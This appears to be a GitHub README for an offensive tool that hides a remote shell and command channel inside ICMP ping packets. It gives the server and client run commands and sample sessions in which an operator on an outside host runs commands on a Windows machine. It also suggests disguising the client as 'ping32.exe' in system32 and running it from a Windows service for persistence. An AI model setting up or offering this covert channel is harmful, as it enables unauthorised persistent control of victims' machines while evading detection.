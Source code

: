 # PingMadeMeDoIt
Mom, ping made me do it ! Use ping to enter shell, execute commands or send data.

Use Ping IMCP 8 to send data, receive data. In our example we implemented a shell, job command and simple plain messaging. All of this in combination with some AES-256 encryption sauce.
Ping client will run as normal ping but if you supply client.exe advanced, it will start the custom ping.

Nowadays this technique is quite known but still it's a nice backup to maintain persistence access to a machine. Maybe combinate this with some windows service which calls our custom ping each 60 minutes, put it in system32\ as ping32.exe ?

<b>run server : python PingMadeMeDoIt.py</b>
server commands : shellstart (start shell), shellexit (exit shell), job: cmd (execute cmd provided and return info), if no command is received default behaviour is to send back reply with the text inputted.

<b>run client : PingMadeMeDoIt.exe advanced x.x.x.x hello</b> 

<br>
<b>Server Side..</b>
<br><br>
[root@yourmom ping]# python3.11 PingMadeMeDoIt.py<br>
Listening for ICMP Echo requests...<br>
Enter the response text to send : shellstart<br>
Entered shell mode.<br>
$ dir<br>
result: shellresult:  Volume in drive C has no label.<br>
 Volume Serial Number is A69D-9D16<br>
<br>
 Directory of C:\Users\yourmom\filled<br>
<br>
07/30/2023  08:10 PM    <DIR>          .<br>
07/30/2023  08:10 PM    <DIR>          ..<br>
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll<br>
07/30/2023  08:10 PM             9,728 Deep.exe<br>
07/30/2023  08:10 PM            24,064 Penetration.pdb<br>
               3 File(s)      2,642,944 bytes<br>
               2 Dir(s)  16,437,215,232 bytes free<br>
<br>
$ shellexit<br>
Shell mode exited.<br>
<br>
<b>Client Side..</b>
<br><br>
C:\Users\yourmom\filled>PingMadeMeDoIt.exe advanced x.x.x.x good<br>
Custom ICMP Echo Request sent successfully.<br>
IP Address: x.x.x.x<br>
Roundtrip Time: 3777 ms<br>
Time to Live (TTL): 50<br>
Buffer Size: 94 bytes<br>
Buffer Data (Hex): 73 67 48 7A 62 44 4E 4C 4C 69 75 49 36 62 6E 6B 42 71 4F 52 45 41 3D 3D 7C 6B 66 4B 53 38 49 63 70 32 6F 4E 30 30 4A 44 49 6C 43 49 30 43 62 31 6D 4B 6F 42 6F 4D 70 6A 43 55 54 54 59 4C 71 70 6C 69 2F 34 3D 7C 6A 48 34 2F 42 42 70 43 34 4A 31 46 46 37 38 79 74 38 49 63 2B 67 3D 3D<br>
Buffer Data (ASCII): sgHzbDNLLiuI6bnkBqOREA==|kfKS8Icp2oN00JDIlCI0Cb1mKoBoMpjCUTTYLqpli/4=|jH4/BBpC4J1FF78yt8Ic+g==<br>
Received command: dir<br>
Send ping reply: shellresult:  Volume in drive C has no label.<br>
 Volume Serial Number is A69D-9D16<br>

 Directory of C:\Users\yourmom\filled<br>

07/30/2023  08:10 PM    <DIR>          .<br>
07/30/2023  08:10 PM    <DIR>          ..<br>
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll<br>
07/30/2023  08:10 PM             9,728 Deep.exe<br>
07/30/2023  08:10 PM            24,064 Penetration.pdb<br>
               3 File(s)      2,642,944 bytes<br>
               2 Dir(s)  16,437,215,232 bytes free<br>
<br>
Received shellexit. Exiting the loop.<br>

